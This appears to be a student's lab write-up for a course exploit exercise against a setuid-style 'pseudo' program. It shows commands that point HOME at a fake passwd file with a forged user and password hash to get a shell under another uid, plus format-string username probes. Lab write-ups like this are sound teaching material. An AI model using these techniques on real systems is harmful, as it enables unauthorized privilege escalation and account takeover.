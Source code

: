 ### Get Past Checking `passwd`
 - It checks for `HOME` in env to find `/etc/passwd`
 - By making a fake `/etc/passwd` in `~`, we can point the env variable to it to search it for valid username
```
>>> env -i HOME=/home/alexander.stevenson/a2/fake ./pseudo Yeetinn /bin/bash
😸: Found passwd entry for 'Yeetinn' (2028)
Upon successful authentication, I shall execve into:
/bin/bash
password for Yeetinn:
```
 - This means that now we should be able to overwrite `euid[1] = 0` and `euid[0] = <uid of user to crack`
 - Do this by setting the username to whatever printf string vulnerability we need and updating `/etc/passwd`
**Two issues with this**:
```
>>> env -i HOME=/home/alexander.stevenson/a2/fake ./pseudo $'%p-%p-%p-%p-%p-%p-%p-%p' /bin/bash

😿: No passwd entry for '0x8-0x7fffffffecc0-0xffffffff-0x`'
Segmentation fault (core dumped)
```
 - It is seg faulting
 - It prints the first 32 bytes of the username *after* string formatting into `username_` to check if it exists in the file

### What Worked
 - So once `passwd` is open and the correct user is found it prompts you for the password of that user, if correct it lets you exec the executable as that user ID
 - If you just make a user under any user ID with a password of your choosing, you can then use `psuedo` to check if your user exists, check your password, and then grant you a shell under that user ID
 - Script to find the sha256 hash of a password in `~/get_sha.c` (hardcoded to be `hello`)
```
// ~/fake/etc/passwd
FakeVladimirRootin:255:2cf24dba5fb0a30e26e83b2ac5b9e29e1b161e5c1fa7425e73043362938b9824
// Password is "hello"
```
```
alexander.stevenson@mocha:~/a2$ env -i HOME=/home/alexander.stevenson/a2/fake pseudo FakeVladimirRootin /bin/bash
😸: Found passwd entry for 'FakeVladimirRootin' (255)
Upon successful authentication, I shall execve into:
/bin/bash
password for FakeVladimirRootin:
Authenticated as FakeVladimirRootin (uid: 255)
bash-5.0$ whodat
 _________________________
< Dat be 'VladimirRootin' >
 -------------------------
         \     ,-.      .-,
          \    |-.\ __ /.-|
           \   \  `    `  /
                /_     _ \
              <  _`q  p _  >
              <.._=/  \=_. >
                 {`\()/`}`\
                 {      }  \
                 |{    }    \
                 \ '--'   .- \
                 |-      /    \
                 | | | | |     ;
                 | | |.;.,..__ |
               .-"";`         `|
              /    |           /
              `-../____,..---'`
A gift of a flower will soon be made to you.
bash-5.0$
```

### If we need to change the user:
 - Just change the `uid` present in the shell script from `255` to any of the other user uids
